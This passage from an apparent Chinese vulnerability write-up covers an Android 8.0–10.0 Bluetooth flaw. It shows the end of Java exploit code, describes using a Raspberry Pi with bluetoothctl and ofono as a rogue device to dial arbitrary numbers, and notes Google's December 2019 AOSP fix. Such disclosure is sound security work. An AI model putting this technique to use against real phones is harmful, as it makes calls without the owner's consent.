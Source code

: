 ```java
        } catch (IllegalAccessException | InvocationTargetException e) {
            Log.e(TAG, "connectAudio, IllegalAccessException | InvocationTargetException");
            e.printStackTrace();
        }
        return false;
    }



    class ServiceListener implements BluetoothProfile.ServiceListener {

        @Override
        public void onServiceConnected(int profile, BluetoothProfile proxy) {
            Log.i(TAG, "onServiceConnected, profile="+profile);
            if (profile == BluetoothProfile.HEADSET) {
                mBtHandset = (BluetoothHeadset) proxy;
            }
        }

        @Override
        public void onServiceDisconnected(int profile) {
            Log.i(TAG, "onServiceDisconnected, profile="+profile);
        }
    }
}
```
- 结合上述恶意代码，再使用树莓派构造恶意蓝牙设备即可，可以使用bluetoothctl蓝牙实用工具，和ofono这个开源的HFP框架来实现任意号码拨打，经过测试该问题影响Android 8.0——Android 10.0之间的系统版本。

## 四、漏洞补丁
- Google在AOSP的2019-12补丁中修复了该漏洞，修复方法是即使是对于Just Works类型的设备，在首次配对连接时也会请求用户同意，经过交互之后才会进行连接。
